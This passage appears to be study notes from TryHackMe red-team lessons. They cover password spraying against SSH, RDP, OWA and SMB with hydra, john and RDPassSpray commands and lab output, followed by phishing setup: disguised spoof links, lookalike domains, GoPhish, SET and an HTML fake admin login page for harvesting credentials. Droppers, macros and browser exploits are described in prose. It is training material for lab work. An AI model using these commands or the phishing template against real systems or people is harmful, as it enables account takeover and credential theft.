Next, we will apply the password spraying technique using different scenarios against various services, including:

- SSH
- RDP
- Outlook web access (OWA) portal
- SMB

**SSH**

```bash
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy

user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```
Note that `L` is to load the list of valid usernames, and `-p` uses the `Spring2021` password against the SSH service at `10.1.1.10`. The above output shows that we have successfully found credentials.

```bash
┌──(root㉿kali)-[~/Desktop]
└─# cat seasons.txt 
Spring202
Fall202
Summer202
Winter202

┌──(root㉿kali)-[~/Desktop]
└─# nano /etc/john/john.conf
[List.Rules:THM-Password-Spray]
Az"[0-1][!@]"

┌──(root㉿kali)-[~/Desktop]
└─# john --wordlist=seasons.txt --rules=THM-Password-Spray --stdout > wordlist-spray.txt
┌──(root㉿kali)-[~/Desktop]
└─# cat wordlist-spray.txt 
Spring2020!
Fall2020!
Summer2020!
Winter2020!
...
Fall2021@
Summer2021@
Winter2021@

┌──(root㉿kali)-[~/Desktop]
└─# hydra -L usernames-list.txt -P wordlist-spray.txt ssh://10.10.103.127 -T 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-15 15:11:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 80 login tries (l:5/p:16), ~20 tries per task
[DATA] attacking ssh://10.10.103.127:22/
[22][ssh] host: 10.10.103.127   login: burgess   password: Fall2021@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-15 15:12:09
```

**RDP**

Let's assume that we found an exposed RDP service on port 3026. We can use a tool such as [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to password spray against RDP. 

```bash
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
```

```bash
python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```
Note that we can specify a domain name using the `-d` option if we are in an Active Directory environment.

<span style="font-size: 23px;">**Outlook web access (OWA) portal**</span>

Tools:

- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) (atomizer.py)
- [MailSniper](https://github.com/dafthack/MailSniper)

<span style="font-size: 23px;">**SMB**</span>

- Tool: [Metasploit](../security/Metasploit.md) (auxiliary/scanner/smb/smb_login)

## Phishing

If you've set up a spoof website to harvest data or distribute malware, the links to this should be disguised using the [anchor text](https://en.wikipedia.org/wiki/Anchor_text) and changing it either to some text which says "Click Here" or changing it to a correct looking link that reflects the business you are spoofing, for example:

`<a href="http://spoofsite.thm">Click Here</a>`

`<a href="http://spoofsite.thm">https://onlinebank.thm</a>`

### Phishing Infrastructure 


**Domain Name:**

You'll need to register either an authentic-looking domain name or one that mimics the identity of another domain. See task 5 for details on how to create the perfect domain name.

**SSL/TLS Certificates:**

Creating SSL/TLS certificates for your chosen domain name will add an extra layer of authenticity to the attack.

**Email Server/Account:**

You'll need to either set up an email server or register with an SMTP email provider. 

**DNS Records:**

Setting up DNS Records such as SPF, DKIM, DMARC will improve the deliverability of your emails and make sure they're getting into the inbox rather than the spam folder.

**Web Server:**

You'll need to set up webservers or purchase web hosting from a company to host your phishing websites. Adding SSL/TLS to the websites will give them an extra layer of authenticity. 

**Analytics:**

When a phishing campaign is part of a red team engagement, keeping analytics information is more important. You'll need something to keep track of the emails that have been sent, opened or clicked. You'll also need to combine it with information from your phishing websites for which users have supplied personal information or downloaded software. 

**Automation And Useful Software:**

Some of the above infrastructures can be quickly automated by using the below tools.

**GoPhish - (Open-Source Phishing Framework)**

[getgophish.com](https://getgophish.com/)

GoPhish is a web-based framework to make setting up phishing campaigns more straightforward. GoPhish allows you to store your SMTP server settings for sending emails, has a web-based tool for creating email templates using a simple WYSIWYG (What You See Is What You Get) editor. You can also schedule when emails are sent and have an analytics dashboard that shows how many emails have been sent, opened or clicked.

**SET - (Social Engineering Toolkit)**

[trustedsec.com](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

The Social Engineering Toolkit contains a multitude of tools, but some of the important ones for phishing are the ability to create spear-phishing attacks and deploy fake versions of common websites to trick victims into entering their credentials.

### Using GoPhish  

**ACME Login**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>ACME IT SUPPORT - Admin Panel</title>
    <style>
        body { font-family: "Ubuntu", monospace; text-align: center }
        div.login-form { margin:auto; width:300px; border:1px solid #ececec; padding:10px;text-align: left;font-size:13px;}
        div.login-form div input { margin-bottom:7px;}
        div.login-form input { width:280px;}
        div.login-form div:last-child { text-align: center; }
        div.login-form div:last-child input { width:100px;}
    </style>
</head>
<body>
    <h2>ACME IT SUPPORT</h2>
    <h3>Admin Panel</h3>
    <form method="post">
        <div class="login-form">
            <div>Username:</div>
            <div><input name="username"></div>
            <div>Password:</div>
            <div><input type="password" name="password"></div>
            <div><input type="submit" value="Login"></div>
        </div>
    </form>
</body>
</html>
```
---

### Droppers

Droppers are software that phishing victims tend to be tricked into downloading and running on their system. The dropper may advertise itself as something useful or legitimate such as a codec to view a certain video or software to open a specific file.

The droppers are not usually malicious themselves, so they tend to pass antivirus checks. Once installed, the intended malware is either unpacked or downloaded from a server and installed onto the victim's computer. The malicious software usually connects back to the attacker's infrastructure. The attacker can take control of the victim's computer, which can further explore and exploit the local network.

### Choosing A Phishing Domain

**IDN Homograph Attack/Script Spoofing:**

Originally domain names were made up of Latin characters a-z and 0-9, but in 1998, IDN (internationalized domain name) was implemented to support language-specific script or alphabet from other languages such as Arabic, Chinese, Cyrillic, Hebrew and more. An issue that arises from the IDN implementation is that different letters from different languages can actually appear identical. For example, Unicode character U+0430 (Cyrillic small letter a) looks identical to Unicode character U+0061 (Latin small letter a) used in English, enabling attackers to register a domain name that looks almost identical to another.


---

### Using MS Office In Phishing

Often during phishing campaigns, a Microsoft Office document (typically Word, Excel or PowerPoint) will be included as an attachment. Office documents can contain **macros**; macros do have a legitimate use but can also be used to run computer commands that can cause malware to be installed onto the victim's computer or connect back to an attacker's network and allow the attacker to take control of the victim's computer.

### Using Browser Exploits

Another method of gaining control over a victim's computer could be through browser exploits; this is when there is a vulnerability against a browser itself (Internet Explorer/Edge, Firefox, Chrome, Safari, etc.), which allows the attacker to run remote commands on the victim's computer.

Browser exploits aren't usually a common path to follow in a red team engagement unless you have prior knowledge of old technology being used on-site. Many browsers are kept up to date, hard to exploit due to how browsers are developed, and the exploits are often worth a lot of money if reported back to the developers.

That being said, it can happen, and as previously mentioned, it could be used to target old technologies on-site because possibly the browser software cannot be updated due to incompatibility with commercial software/hardware, which can happen quite often in big institutions such as education, government and especially health care.

Usually, the victim would receive an email, convincing them to visit a particular website set up by the attacker. Once the victim is on the site, the exploit works against the browser, and now the attacker can perform any commands they wish on the victim's computer.